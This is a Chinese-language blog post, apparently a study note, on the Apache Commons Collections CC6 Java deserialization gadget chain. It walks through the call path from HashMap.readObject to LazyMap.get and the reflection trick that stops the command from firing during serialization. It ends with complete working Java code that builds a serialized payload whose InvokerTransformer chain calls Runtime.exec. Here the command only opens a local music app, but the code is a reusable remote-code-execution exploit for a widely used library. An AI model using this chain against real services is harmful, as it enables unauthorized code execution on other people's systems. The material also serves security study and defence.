 ```yaml
---
layout: post
title: CC链-CC6
subtitle: Let's start learning!
tags: [CC链]
author: Sine
---
```


# CC6

反序列化方法deserialize->HashMap.readObject()->HashMap.put()->HashMap.hash()->TiedMapEntry.hashCode()->TiedMapEntry.getValue()->LazyMap.get()->transform()

JDK-8u71版本之后，对AnnotationInvocationHandler的readObject方法进行了修改

CC1的链子已经无法执行

lazyMap开始的后半部分链子和cc1相同

我们直接来看TiedMapEntry，他的getValue()方法调用了map.get(key)，而map和key在构造方法里被赋值，因为我们的链子需要从readObject入手，所以我们找哪里调用了TiedMapEntry的getValue方法

![image-20250220143934819](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220143934879.png)

发现在同类的hashCode方法中调用到了

![image-20250220144417279](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220144417313.png)

成功弹出app

![image-20250220144844890](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220144844922.png)

接下来寻找谁调用了hashCode方法

来到HashMap类，它的readObject方法中调用了hash()

![image-20250220145135852](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220145135907.png)

hash方法中调用了hashCode

![image-20250220145026084](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220145026122.png)

而key的值是从readObject获取的

![image-20250220145429828](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220145429863.png)

可以在序列化时使用put方法来传入key和value，发现此时还未到执行反序列化就已经执行了命令

![image-20250220145807253](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220145807287.png)

因为此时执行了HashMap的put方法，最终会走到hash方法中，导致执行

![image-20250220145907425](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220145907460.png)

所以我们可以在初始化LazyMap的时候，传入一个无用的factory值，在序列化后利用反射方法进行修改，发现并没有弹出app

![image-20250220150623376](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220150623408.png)

序列化的时候，会先走到这进行判断，然后执行put，把key写进了map，然后反序列化的时候又走到这，同样的key进行判断，这时候if的条件为false，所以没有办法进到if里面导致执行失败

![image-20250220150908425](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220150908459.png)

直接在序列化之后删除掉这个key就可以了

![image-20250220151318242](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250220151318287.png)

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/NeteaseMusic.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazymap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "1");
        HashMap<Object, Object> map = new HashMap<>();
        map.put(tiedMapEntry, "2");
        lazymap.remove("1");
        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(lazymap,chainedTransformer);
        serialize(map);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

在map.put(tiedMapEntry, "2");会触发后续利用链到LazyMap.get()，所以在Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));的时候，给一个无用的ConstantTransformer，factoryFied.set(lazyMap,chainedTransformer);在序列化的时候再改成有用的chainedTransformer
